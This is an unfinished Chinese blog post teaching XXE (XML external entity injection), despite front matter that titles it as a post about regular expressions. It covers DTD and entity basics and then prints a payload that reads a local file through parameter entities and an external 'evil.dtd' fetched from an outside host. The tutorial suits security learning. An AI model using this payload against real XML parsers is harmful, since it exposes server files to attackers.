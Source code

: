 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      哇，正则你好犀利               # 标题 
subtitle:   正则表达式的美丽
date:       2020-03-27              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00 XXE他是谁？
XXE：XML external entity injection,全称外部实体注入，也就是注入漏洞，下面大概展示一下：
<ag> 用户输入 </ag>   此时我们的用户输入如果为 111</ag><ag>222,那么这个语句为<ag>111</ag><ag>222</ag>，此时超出预期用户输入，便就是XML注入。
我们的XXE要注重于外部实体注入，那么先学习一下相关基础知识：

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子：
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE foo [
<!ELEMENT x ANY>
<!ENTITY xxe "jjjj">
]>
<x>&xxe;<x>
这里定义了XML 的根元素foo，然后下面有子元素x，其中实体为xxe。
当我们使用的时候只需添加一行
<x>&xxe；</x>即可引用，输出的时候&xxe被替换为jjjj。

这里就要说一下啦外部实体和内部实体，以上就是内部实体了，外部实体为以下例子：
<!ENTITY  xxe SYSTEM "file://c:/test.dtd">

这里简单拓展一下通用实体和参数实体：
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用，```ps：<!ENTITY xxe "jjjj">···<x>&xxe;</x>```
参数实体：
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用
例子如下：
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;

学习到这里我们就应该知道实体构造是个怎么回事了，接下来根据表哥的例子来学习一波：
1、payload：
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>

其中evil.dtd内容为：
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">


继续 研读：：：：



